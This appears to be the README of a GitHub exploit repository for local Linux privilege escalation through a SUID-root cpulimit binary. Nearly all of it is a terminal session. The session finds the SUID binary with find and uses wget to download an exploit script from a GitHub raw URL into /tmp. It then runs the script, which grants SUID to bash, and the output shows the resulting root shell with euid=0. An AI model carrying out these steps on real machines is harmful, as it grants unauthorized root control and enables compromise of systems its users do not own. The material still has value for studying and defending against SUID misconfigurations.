 # CPULimit Linux Privilege Escalation

**Run:** ```bash
user@victim:~$ whoami && id && hostname
user
uid=1000(user) gid=1000(user) grupos=1000(user),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
victim
user@victim:~$ find / -perm -4000 2>/dev/null | grep "cpulimit"
/usr/bin/cpulimit
user@victim:~$ cd /tmp/
user@victim:/tmp$ wget https://raw.githubusercontent.com/d4t4s3c/CPULimit-Linux-Privilege-Escalation/master/suid_root.sh
user@victim:/tmp$ chmod +x suid_root.sh 
user@victim:/tmp$ ./suid_root.sh 

[i]  starting exploit.. 
[*]  check PATH bash: /usr/bin/bash
[*]  check PATH cpulimit: /usr/bin/cpulimit
[+]  granting SUID permissions to: /usr/bin/bash
Process 436 detected
Child process is finished, exiting...
[+]  getting a shell as root.. 
bash-5.0# whoami && id && hostname
root
uid=1000(user) gid=1000(user) euid=0(root) egid=0(root) grupos=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),1000(user)
victim
bash-5.0# 
```

**Screenshot**
![](/screenshot.png)
